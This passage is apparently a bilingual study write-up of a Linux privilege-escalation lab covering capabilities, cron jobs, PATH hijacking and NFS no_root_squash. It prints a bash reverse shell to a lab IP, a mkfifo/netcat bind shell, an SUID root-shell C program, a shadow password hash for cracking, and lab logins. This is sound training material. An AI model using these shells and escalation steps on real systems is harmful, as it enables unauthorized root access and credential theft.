user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
```

写入passwd.txt，然后使用john破解密码



切换用户



搜索flag3.txt



base64查看




## Task 8

**Note: Launch the target machine attached to this task to follow along.
注意：启动与此任务关联的目标计算机以跟随操作。**

**You can launch the target machine and access it directly from your browser.
您可以启动目标机器，并直接通过浏览器访问它。**

**Alternatively, you can access it over
或者，您可以通过以下方式访问它：SSH with the low-privilege user credentials below:
使用以下低权限用户凭据：
**

**
**

**Username: karen 用户名：凯伦**

**Password: Password1 密码：Password1**


Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
系统管理员还可以使用“权限”来提升进程或二进制文件的权限级别。权限有助于更精细地管理权限。例如，如果安全运营中心 (SOC) 分析师需要使用一个需要发起套接字连接的工具，普通用户则无法执行此操作。如果系统管理员不想授予该用户更高的权限，则可以更改二进制文件的权限。这样，该二进制文件无需更高权限的用户即可完成其任务。
The capabilities man page provides detailed information on its usage and options.
capabilities 手册页提供了有关其用法和选项的详细信息。

We can use the `getcap` tool to list enabled capabilities.
我们可以使用 `getcap` 工具列出已启用的功能。


When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.
当以非特权用户身份运行时， `getcap -r /` 会生成大量错误，因此将错误消息重定向到 /dev/null 是一种良好的做法。

Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.
请注意，vim 及其副本均未设置 SUID 位。因此，通过枚举文件查找 SUID 时，无法发现此权限提升途径。


GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.
GTFObins 提供了一个很好的二进制文件列表，如果我们发现任何特定功能，就可以利用这些二进制文件进行权限提升。

We notice that vim can be used with the following command and payload:
我们注意到，vim 可以与以下命令和有效载荷一起使用：


This will launch a root shell as seen below;
这将启动一个 root shell，如下所示；









## Task 9

**Note: Launch the target machine attached to this task to follow along.
注意：启动与此任务关联的目标计算机以跟随操作。**

**You can launch the target machine and access it directly from your browser.
您可以启动目标机器，并直接通过浏览器访问它。**

**Alternatively, you can access it over
或者，您可以通过以下方式访问它：SSH with the low-privilege user credentials below:
使用以下低权限用户凭据：
**

**Username: karen 用户名：凯伦**

**Password: Password1 密码：Password1**

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
定时任务（Cron job）用于在特定时间运行脚本或二进制文件。默认情况下，它们以所有者的权限运行，而不是当前用户的权限。虽然配置正确的定时任务本身并不存在安全漏洞，但在某些情况下，它们可能提供权限提升的途径。
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.
这个想法很简单；如果有一个计划任务以 root 权限运行，而我们可以更改要运行的脚本，那么我们的脚本也将以 root 权限运行。

Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.
定时任务配置以 crontab（定时任务表）的形式存储，以便查看任务下次运行的时间和日期。

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.
系统中的每个用户都有自己的 crontab 文件，无论是否登录，都可以运行特定的任务。正如您所料，我们的目标是找到 root 用户设置的 cron 任务，并让它运行我们的脚本，理想情况下，脚本会以 shell 的形式运行。

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`
任何用户都可以读取 `/etc/crontab` 文件，该文件用于保存系统范围内的 cron 任务。

While CTF machines can have cron jobs running every minute or every 5 minutes, you will more often see tasks that run daily, weekly or monthly in penetration test engagements.
虽然 CTF 机器可以每分钟或每 5 分钟运行一次 cron 作业，但在渗透测试中，你更常会看到每天、每周或每月运行的任务。


You can see the `backup.sh` script was configured to run every minute. The content of the file shows a simple script that creates a backup of the prices.xls file.
可以看到 `backup.sh` 脚本配置为每分钟运行一次。该文件的内容是一个简单的脚本，用于创建 prices.xls 文件的备份。


As our current user can access this script, we can easily modify it to create a reverse shell, hopefully with root privileges.
由于我们当前的用户可以访问此脚本，我们可以轻松地对其进行修改，以创建一个反向 shell，希望能够获得 root 权限。

The script will use the tools available on the target system to launch a reverse shell.
该脚本将使用目标系统上可用的工具来启动反向 shell。
Two points to note; 需要注意两点；

1. The command syntax will vary depending on the available tools. (e.g. `nc` will probably not support the `-e` option you may have seen used in other cases)
   命令语法会因可用工具的不同而有所差异。（例如， `nc` 可能不支持你在其他情况下可能看到的 `-e` 选项）
2. We should always prefer to start reverse shells, as we not want to compromise the system
   我们应该始终优先选择启动反向 shell，因为我们不想破坏系统。integrity 正直 during a real penetration testing engagement.
   在实际渗透测试过程中。

The file should look like this;
文件应该如下所示；


We will now run a listener on our attacking machine to receive the incoming connection.
现在我们将在攻击机上运行一个监听器来接收传入的连接。


Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:
Crontab 始终值得检查，因为它有时可能导致权限提升的漏洞。以下情况在网络安全成熟度不足的公司中并不少见：

1. System administrators need to run a script at regular intervals.
   系统管理员需要定期运行脚本。
2. They create a cron job to do this
   他们创建了一个定时任务来执行此操作。
3. After a while, the script becomes useless, and they delete it
   过了一段时间，脚本就没用了，他们就把它删除了。
4. They do not clean the relevant cron job
   他们没有清理相关的定时任务

This change management issue leads to a potential exploit leveraging cron jobs.
这种变更管理问题可能导致攻击者利用定时任务进行攻击。


The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.
上面的例子显示了类似的情况，即 antivirus.sh 脚本被删除，但 cron 作业仍然存在。
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the /etc/crontab file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.
如果未定义脚本的完整路径（例如 backup.sh 脚本），cron 将引用 /etc/crontab 文件中 PATH 变量下列出的路径。在这种情况下，我们应该可以在用户主目录下创建一个名为“antivirus.sh”的脚本，并由 cron 作业运行它。


The file on the target system should look familiar:
目标系统上的文件应该看起来很眼熟：


The incoming reverse shell connection has root privileges:
传入的反向 shell 连接具有 root 权限：


In the odd event you find an existing script or task attached to a cron job, it is always worth spending time to understand the function of the script and how any tool is used within the context. For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature.
如果你发现某个脚本或任务附加到了定时任务（cron job）上，那么花时间了解该脚本的功能以及其中使用的工具总是值得的。例如，tar、7z、rsync 等工具都可能被利用其通配符特性。

全部 5 个位置都是 * 号 意思就是：每分钟 都执行一次！

每分钟、每小时、每天、每月、每周都运行 → **每分钟跑一次**



将

```
bash -i >& /dev/tcp/192.168.52.128/1234 0>&1
```

覆盖/home/karen/backup.sh文件，并赋予执行权限，在攻击机上面实行监听1234端口



因网络问题，shell弹不过来，选择正向连接到靶机

将

```
rm -f /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc -lvnp 4444 > /tmp/f
```

覆盖/home/karen/backup.sh



kali上面正向连接靶机






查看/etc/shadow








## Task 10

**Note: Launch the target machine attached to this task to follow along.
注意：启动与此任务关联的目标计算机以跟随操作。**

**You can launch the target machine and access it directly from your browser.
您可以启动目标机器，并直接通过浏览器访问它。**

**Alternatively, you can access it over
或者，您可以通过以下方式访问它：SSH with the low-privilege user credentials below:
使用以下低权限用户凭据：**

**Username: karen 用户名：凯伦**

**Password: Password1 密码：Password1**

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).
如果您的用户拥有写入权限的文件夹位于 PATH 环境变量中，您就有可能劫持应用程序来运行脚本。在 Linux 系统中，PATH 是一个环境变量，它告诉操作系统在哪里查找可执行文件。对于任何未内置于 shell 或未使用绝对路径定义的命令， Linux 都会首先在 PATH 环境变量指定的文件夹中进行搜索。（这里 PATH 指的是环境变量，而 path 指的是文件的位置。）

Typically the PATH will look like this:
通常情况下，路径看起来会像这样：


If we type “thm” to the command line, these are the locations Linux will look in for an executable called thm. The scenario below will give you a better idea of how this can be leveraged to increase our privilege level. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.
如果在命令行输入“ thm ”， Linux 将会在以下位置查找名为 thm 的可执行文件。下面的示例将帮助您更好地了解如何利用这一点来提升权限。正如您所看到的，这完全取决于目标系统的现有配置，因此在尝试此操作之前，请确保您能够回答以下问题。

1. What folders are located under $PATH
   $PATH 下有哪些文件夹？
2. Does your current user have write privileges for any of these folders?
   当前用户是否拥有这些文件夹的写入权限？
3. Can you modify $PATH? 你能修改 $PATH 环境变量吗？
4. Is there a script/application you can start that will be affected by this vulnerability?
   是否有任何脚本/应用程序会受到此漏洞的影响？

For demo purposes, we will use the script below:
为了演示，我们将使用以下脚本：


This script tries to launch a system binary called “thm” but the example can easily be replicated with any binary.
该脚本尝试启动名为“ thm ”的系统二进制文件，但该示例可以很容易地用任何二进制文件进行复制。


We compile this into an executable and set the SUID bit.
我们将其编译成可执行文件并设置 SUID 位。


Our user now has access to the “path” script with SUID bit set.
我们的用户现在可以访问设置了 SUID 位的“path”脚本。


Once executed “path” will look for an executable named “thm” inside folders listed under PATH.
执行后，“path”将在 PATH 下列出的文件夹中查找名为“ thm ”的可执行文件。


If any writable folder is listed under PATH we could create a binary named thm under that directory and have our “path” script run it. As the SUID bit is set, this binary will run with root privilege
如果 PATH 环境变量下列出了任何可写文件夹，我们可以在该目录下创建一个名为 thm 的二进制文件，并让我们的“path”脚本运行它。由于 SUID 位已设置，该二进制文件将以 root 权限运行。


A simple search for writable folders can done using the “`find / -writable 2>/dev/null`” command. The output of this command can be cleaned using a simple cut and sort sequence.
可以使用“ `find / -writable 2>/dev/null` ”命令轻松查找可写文件夹。该命令的输出结果可以通过简单的剪切和排序操作进行清理。


Some CTF scenarios can present different folders but a regular system would output something like we see above.
有些 CTF 场景可能会呈现不同的文件夹，但常规系统会输出类似上面这样的内容。

Comparing this with PATH will help us find folders we could use.
将此与 PATH 进行比较，可以帮助我们找到可以使用的文件夹。


We see a number of folders under /usr, thus it could be easier to run our writable folder search once more to cover subfolders.
我们看到 /usr 下有许多文件夹，因此可以再次运行可写文件夹搜索来覆盖子文件夹。


An alternative could be the command below.
另一种方法是使用以下命令。

```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

We have added “grep -v proc” to get rid of the many results related to running processes.
我们添加了“grep -v proc”命令，以去除与正在运行的进程相关的众多结果。


Unfortunately, subfolders under /usr are not writable
遗憾的是，/usr 下的子文件夹不可写。


The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “`export PATH=/tmp:$PATH`” command accomplishes this.
最容易写入的文件夹可能是 /tmp。目前 /tmp 不在 PATH 环境变量中，所以我们需要将其添加进去。如下所示，“ `export PATH=/tmp:$PATH` ”命令可以实现这一点。


At this point the path script will also look under the /tmp folder for an executable named “thm”.
此时，路径脚本还会查找 /tmp 文件夹下名为“ thm ”的可执行文件。

Creating this command is fairly easy by copying /bin/bash as “thm” under the /tmp folder.
创建此命令非常简单，只需将 /bin/bash 复制到 /tmp 文件夹下，命名为“ thm ”即可。


We have given executable rights to our copy of /bin/bash, please note that at this point it will run with our user’s right. What makes a privilege escalation possible within this context is that the path script runs with root privileges.
我们已赋予 /bin/bash 副本可执行权限，请注意，此时它将以我们用户的权限运行。在此上下文中，权限提升之所以成为可能，是因为路径脚本以 root 权限运行。






添加/tmp到环境变量中，并在该文件夹下面建立thm，赋予可执行权限



执行test








## Task 11

**Note: Launch the target machine attached to this task to follow along.
注意：启动与此任务关联的目标计算机以跟随操作。**

**You can launch the target machine and access it directly from your browser.
您可以启动目标机器，并直接通过浏览器访问它。**

**Alternatively, you can access it over
或者，您可以通过以下方式访问它：SSH with the low-privilege user credentials below:
使用以下低权限用户凭据：**

**Username: karen 用户名：凯伦**

**Password: Password1 密码：Password1**

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.
权限提升途径并非仅限于内部访问。共享文件夹和远程管理接口（例如 SSH 和 Telnet）也能帮助您获得目标系统的 root 权限。某些情况下，您可能需要同时使用这两种途径，例如，找到目标系统上的 root SSH 私钥，然后使用 root 权限通过 SSH 连接，而不是尝试提升当前用户的权限级别。

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.
另一个与 CTF 和考试更相关的攻击向量是配置错误的网络 shell。当存在网络备份系统时，这种攻击向量有时会在渗透测试过程中出现。

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.
NFS（网络文件共享）配置信息保存在 /etc/exports 文件中。该文件在 NFS 服务器安装过程中创建，通常用户可以读取。


The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
此权限提升途径的关键要素是上面提到的“no_root_squash”选项。默认情况下，NFS 会将 root 用户更改为 nfsnobody，并移除所有文件的 root 权限。如果可写共享上存在“no_root_squash”选项，我们就可以创建一个设置了 SUID 位的可执行文件，并在目标系统上运行它。

We will start by enumerating mountable shares from our attacking machine.
我们将首先枚举攻击机上可挂载的份额。


We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable.
我们将把其中一个“no_root_squash”共享挂载到我们的攻击机上，并开始构建我们的可执行文件。


As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.
由于我们可以设置 SUID 位，因此一个简单的可执行文件，即在目标系统上运行 /bin/bash，就可以完成这项工作。


Once we compile the code we will set the SUID bit.
代码编译完成后，我们将设置 SUID 位。


You will see below that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them).
您将在下面看到，这两个文件（nfs.c 和 nfs）都存在于目标系统中。我们已经对已挂载的共享进行了操作，因此无需传输它们。


Notice the nfs executable has the SUID bit set on the target system and runs with root privileges.
请注意，nfs 可执行文件在目标系统上设置了 SUID 位，并以 root 权限运行。

查看/etc/exports



在攻击机上面查看目标机器的可共享挂载



把一个设置了“no_root_squash”选项（来自目标机）的共享挂载到我们的攻击机上并开始在攻击机上构建可执行文件。

在挂载的目录中创建shell.c文件，然后编译并赋予可执行权限

```c
include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void)
{
setuid(0);
setgid(0);
system("/bin/bash");
return 0;
}

```



在目标机器上面运行shell



攻击机编译版本过高

重新编译







## Task 12

By now you have a fairly good understanding of the main privilege escalation vectors on Linux and this challenge should be fairly easy.
现在你已经对 Linux 上的主要提权途径有了相当不错的了解，这个挑战应该比较容易。

You have gained SSH access to a large scientific facility. Try to elevate your privileges until you are Root.
您已获得对大型科研设施的 SSH 访问权限。请尝试提升您的权限，直到成为 root 用户。
We designed this room to help you build a thorough methodology for Linux privilege escalation that will be very useful in exams such as OSCP and your penetration testing engagements.
我们 这间房间的设计旨在帮助您构建一套完善的 Linux 方法论。 权限提升技巧在 OSCP 等考试中非常有用。 您的渗透测试项目。

Leave no privilege escalation vector unexplored, privilege escalation is often more an art than a science.
务必探索所有可能的权限提升途径，权限提升往往更像是一门艺术，而不是一门科学。

You can access the target machine over your browser or use the SSH credentials below.
您可以通过浏览器访问目标机器，也可以使用以下 SSH 凭据。

- Username: leonard 用户名：伦纳德
- Password: Penny123 密码：Penny123


先查看系统版本，再去searchsploit上面搜索，看看是否有可以利用的脚本，经过搜索没发现可利用



sudo -l 也不能运行



运行

```
find / -type f -perm -04000 -ls 2>/dev/null
```

 查询具有SUID的文件



发现高风险 SUID 文件

`/usr/bin/pkexec` → 曾经有 CVE-2021-4034（PwnKit）提权漏洞，可执行任意 root 代码。

`/usr/bin/mount` / `/usr/bin/umount` → 如果能挂载恶意文件系统，可写入 SUID shell。

`/usr/bin/Xorg` → X server 曾有 misconfig 可提权，但通常需要 DISPLAY 权限。

`/usr/bin/chfn` / `/usr/bin/chsh` → 有些历史漏洞可提权。



发现pkexec有可能有可利用漏洞



在[arthepsy/CVE-2021-4034: PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)](https://github.com/arthepsy/CVE-2021-4034)找到poc文件








